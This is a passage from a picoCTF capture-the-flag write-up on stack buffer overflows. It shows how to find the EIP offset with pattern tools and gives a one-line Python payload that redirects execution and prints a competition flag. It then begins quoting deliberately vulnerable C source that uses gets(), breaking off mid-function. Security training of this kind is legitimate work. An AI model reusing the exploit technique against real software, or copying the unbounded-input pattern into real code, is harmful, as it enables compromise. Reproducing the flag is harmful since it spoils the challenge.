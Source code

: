 ```c
}
```

From a cursory glance at the source code, we see the binary take a single command line argument and copies it into a character buffer of size 16, without any length checks. This is where our overflow will occur. Next we must find the offset to `eip` - once we control `eip`, we control the execution of the binary.

Using `pattern_create.rb` and `pattern_offset.rb` we find the offset of `eip` is 28 characters. In gdb:
``run $(`locate pattern_create` -l 50)`` Note: GEF offers this functionality as `pattern create <LENGTH>` within gdb.

This displays the crash and tells us that `eip` is trying to find the address of `a9Ab`. Using `` `locate pattern_offset.rb` -q a9Ab`` we know now that any input after 28 characters will overwrite `eip`. Thus, we can disasemble the function `sigsegv_handler` and overwrite `eip` with it's address.

```bash
./vuln $(python -c 'print "A"*28 + "\x2b\x86\x04\x08"')
picoCTF{ov3rfl0ws_ar3nt_that_bad_b49d36d2}
```

# Buffer Overflow 1
Similar to the previous challenge, we are give a binary and it's source code.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include "asm.h"

#define BUFSIZE 32
#define FLAGSIZE 64

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);

  printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
```